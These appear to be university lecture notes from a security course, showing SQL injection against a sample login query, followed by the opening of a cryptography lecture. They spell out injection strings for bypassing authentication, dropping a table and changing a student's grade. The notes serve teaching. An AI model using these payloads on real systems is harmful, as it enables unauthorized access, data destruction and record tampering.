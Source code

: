 ### SQL Injection to Bypass Authentication
``` sql
SELECT * FROM CSE3220 WHERE Name=$username AND Password = hash( $passwd )
```
#### If the attacker enters the following username and password:
- $username: ' OR '1'='1 
- &password: ' OR '1'='1
    - The query becomes:
``` sql
SELECT * FROM CSE3220 WHERE Name='' OR '1'='1' AND Password = hash( '' OR '1'='1' )
```
#### Or if the attacker enters:
- $username: A ' OR '1'='1 -- 
- &password: anything
    - The query becomes:
``` sql
SELECT * FROM CSE3220 WHERE Name='A' OR '1'='1' -- ' AND Password = hash( 'anything' )
```
### SQL Injection for Data Corruption
``` sql
SELECT * FROM CSE3220 WHERE Name=$username AND Password = hash( $passwd ) ;
```
#### If the attacker enters the following username and password:
- $username: ' ; DROP TABLE CSE3220; --
- &password: anything
    - The query becomes:
``` sql
SELECT * FROM CSE3220 WHERE Name='' ; DROP TABLE CSE3220; -- ' AND Password = hash( 'anything' )
```
#### Or if the attacker enters:
- $username: $username = A'; UPDATE CSE3220 SET grade='A' WHERE Name = 'Lilika' --
- &password: anything
    - The query becomes:
``` sql
SELECT * FROM CSE3220 WHERE Name='A'; UPDATE CSE3220 SET grade='A' WHERE Name = 'Lilika' -- ' AND Password = hash( 'anything' )
```
---

# Lecture 8: Cryptography

Cryptography ensures the confidentiality and integrity of the message. (not availability)

## Kerckhoffs's Principle
- The security of a cryptographic system should not depend on the secrecy of the algorithm, only the key.
